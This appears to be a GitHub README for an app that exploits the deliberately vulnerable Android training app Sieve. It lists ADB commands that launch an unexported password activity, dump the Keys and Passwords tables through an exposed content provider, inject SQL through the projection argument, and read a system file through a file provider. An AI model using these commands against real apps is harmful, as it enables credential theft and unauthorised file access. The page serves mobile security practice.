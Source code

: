 # sieve_pwn_max
 - an app which exploits several vulnerabilities in [sieve.apk](https://github.com/VAnD4L/sieve_pwn_max/releases/download/untagged-a80161bbd8e025d1211b/sieve.apk)
 - check [Releases](https://github.com/VAnD4L/sieve_pwn_max/releases) 

## how to invoke each function via ADB : 

### [func1](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L38C1-L43C6) 

```
adb shell am start -n com.mwr.example.sieve/com.mwr.example.sieve.PWList

```

### [func2](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L44C1-L50C6) 

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/
```

### [func3](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L51C1-L57C6)

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

### [func4](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L58C1-L65C6)

```
adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection '* FROM Passwords;'
```

### [func5](https://github.com/VAnD4L/sieve_pwn_max/blob/b875982477a9c9d52a3b1dc6f2ad4c9bddd26454/app/src/main/java/com/citadel/sieve_pwn_max/MainActivity.java#L66C1-L81C6)

```
adb shell cat /data/data/com.mwr.example.sieve.FileBackupProvider/files/etc/hosts
```

